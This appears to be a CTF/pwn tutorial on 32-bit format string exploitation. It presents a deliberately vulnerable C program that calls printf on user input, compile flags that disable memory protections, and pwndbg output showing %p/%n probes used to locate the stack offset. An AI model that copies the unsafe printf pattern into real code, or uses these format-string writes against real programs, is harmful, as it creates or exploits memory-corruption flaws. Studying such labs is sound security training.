 ```yaml
---
title: "format string x86"
categories:
  - CTF/pwn
tags:
  - fmtx86
---
```


# Try to understand

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    int target = 0xdeadc0de;
    char buffer[64];

    fgets(buffer, 64, stdin);
    printf(buffer);

    if(target == 0xcafebabe) {
      	printf("Good job !\n");
      	return EXIT_SUCCESS;
  	} else {
  	  	printf("Nope...\n");
  	  	exit(EXIT_FAILURE);
  	}
}
// gcc -z execstack -z norelro -fno-stack-protector -o fmt fmt.c -m32
```

Compiler c file above, then disable ALSR to make sure pointer of `target` on the stack alway be same every running.

**NOTE:**  `%{Y}p` will pad the 1st arg with Y bytes, `%{Y}$p` will print the Yth argument.

```bash
$ ./fmt
AAAA%14$p
AAAA(nil)
Nope...
$ ./fmt
AAAA%14$n
Segmentation fault
# because we try to write the value 4 (the size of our string)
# at the address 0 (nil)

pwndbg> b *main+73 # bp at printf(buffer)
pwndbg> r
%5$p-%6$p-%7$p
pwndbg> tel 24
00:0000│ esp 0xffff66b0 —▸ 0xffff66cc ◂— '%5$p-%6$p-%7$p\n'
01:0004│     0xffff66b4 ◂— 0x40 /* '@' */
02:0008│     0xffff66b8 —▸ 0xf7fb8580 (_IO_2_1_stdin_) ◂— 0xfbad2288
03:000c│     0xffff66bc —▸ 0x56556248 (main+27) ◂— add    ebx, 0x2044
04:0010│     0xffff66c0 ◂— 0x1c2fb9
05:0014│     0xffff66c4 ◂— 0x534 # %5$p
06:0018│     0xffff66c8 ◂— 0x3d /* '=' */ # %6$p
07:001c│ eax 0xffff66cc ◂— '%5$p-%6$p-%7$p\n' # %7$p
```